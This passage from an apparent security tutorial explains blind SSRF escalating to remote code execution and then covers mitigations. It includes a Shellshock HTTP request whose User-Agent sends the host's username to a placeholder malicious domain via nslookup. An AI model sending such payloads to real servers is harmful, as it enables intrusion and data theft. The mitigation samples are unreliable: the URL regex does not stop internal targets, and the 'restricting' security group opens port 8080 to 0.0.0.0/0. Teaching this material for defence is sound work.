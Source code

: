 If the application uses the `Referer` header to make requests without proper validation, it could lead to unintended access to internal resources.

### SSRF leading to remote code execution

Another avenue for exploiting blind SSRF vulnerabilities is to induce the application to connect to a system under the malefactor's control, and return malicious responses to the HTTP client that makes the connection. If you can exploit a serious client-side vulnerability in the server's HTTP implementation, you might be able to achieve remote code execution within the application infrastructure.

For example, consider a situation when a server follows a link sent in `Referer` header. If you observe that the server included some information from the initial request, like `User-Agent` header, than you can try to embed malicous payload to check for a possible command execution like this:

```http
GET /api/resource HTTP/1.1
Host: vulnerable-application.com
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).malicious-domain
Referer: http://internal-service:8080/admin
```

If the server is vulnerable to Shellshock attack he will initiate a DNS request to the malicous domain containing the username of the vulnerable host in the subdomain.

## How to prevent SSRF attacks?

Mitigating SSRF vulnerabilities requires a multi-faceted approach that includes input validation, access controls, and robust application design. Beloware some of the best practices for preventing SSRF attacks.

### Input validation and sanitization

Implement strict validation and sanitization of user-supplied URLs. Ensure that inputs conform to expected formats and do not allow arbitrary URLs:

```kotlin
fun isValidUrl(url: String): Boolean {
    val regex = Regex("^(http|https)://[a-zA-Z0-9.-]+(:[0-9]{1,5})?(/.*)?$")
    return regex.matches(url)
}

val userInputUrl = request.getParameter("url")
if (!isValidUrl(userInputUrl)) {
    throw IllegalArgumentException("Invalid URL")
}
```

### Restrict internal network access

Limit the ability of web applications to make requests to internal services. Use network-level controls such as firewalls and security groups to restrict access to sensitive internal resources.

Here is an example of such configuration for "AWS Security Group":
```json
{
    "IpPermissions": [
        {
            "IpProtocol": "tcp",
            "FromPort": 8080,
            "ToPort": 8080,
            "IpRanges": [
                {
                    "CidrIp": "0.0.0.0/0",
                    "Description": "Allow access from the web application"
                }
            ]
        }
```